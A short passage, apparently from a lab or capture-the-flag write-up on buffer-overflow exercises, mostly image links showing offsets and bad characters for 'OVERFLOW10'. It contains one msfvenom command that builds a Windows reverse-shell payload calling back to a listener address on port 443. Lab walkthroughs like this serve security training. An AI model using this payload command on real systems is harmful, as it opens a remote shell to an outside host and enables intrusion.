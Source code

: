 `msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x04\x3e\x3f\xe1"`

![of9-admin](assets/markdown-img-paste-20210904114045736.png)

## OVERFLOW10
![of10-offset](assets/markdown-img-paste-20210904114508348.png)

![of10-badchars](assets/markdown-img-paste-20210904114452507.png)

![of10](assets/markdown-img-paste-20210904114935927.png)
